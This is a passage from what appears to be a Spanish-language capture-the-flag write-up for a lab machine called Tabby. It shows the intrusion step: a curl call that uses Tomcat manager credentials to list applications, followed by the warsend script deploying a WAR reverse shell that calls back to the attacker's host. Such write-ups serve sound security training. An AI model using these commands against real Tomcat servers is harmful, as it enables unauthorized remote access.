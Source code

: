 ![](/assets/img/Tabby/image_4.png)
## Intrusión

`Listamos` las `aplicaciones` que están corriendo

```
# curl -s -X GET -u 'tomcat:$3cureP4s5w0rd123!' http://10.129.182.100:8080/manager/text/list
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:0:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
```

No tenemos acceso a  `http://10.129.182.100:8080/manager/html`, sin embargo, si que tenemos acceso a `http://10.129.182.100:8080/manager/text` que es la `api` de `Tomcat`, mediante la cual podemos `subir` un archivo `.war` para `ganar acceso` a la `máquina víctima`, lo que estaríamos haciendo sería `crear` una nueva `aplicación`. He usado el `exploit` de [https://github.com/thewhiteh4t/warsend](https://github.com/thewhiteh4t/warsend) para `automatizar` el `proceso`

```
# /exploit.sh 10.10.16.23 8090 10.129.182.100 8080 tomcat '$3cureP4s5w0rd123!' revshell 

 _       _____    ____  _____                __
| |     / /   |  / __ \/ ___/___  ____  ____/ /
| | /| / / /| | / /_/ /\__ \/ _ \/ __ \/ __  /
| |/ |/ / ___ |/ _, _/___/ /  __/ / / / /_/ /
|__/|__/_/  |_/_/ |_|/____/\___/_/ /_/\__,_/

[>] Created By : thewhiteh4t
[>] Version    : 1.0.0

[+] LHOST                  : 10.10.16.23
[+] LPORT                  : 8090
[+] RHOST                  : 10.129.182.100
[+] RPORT                  : 8080
[+] Username               : tomcat
[+] Password               : $3cureP4s5w0rd123!
[+] Reverse Shell Filename : revshell
[+] Payload                : java/jsp_shell_reverse_tcp

[!] Checking Dependencies...

[!] Testing Tomcat Manager Text API Access...

[+] Login Successful!

[+] Generating WAR Reverse Shell...
```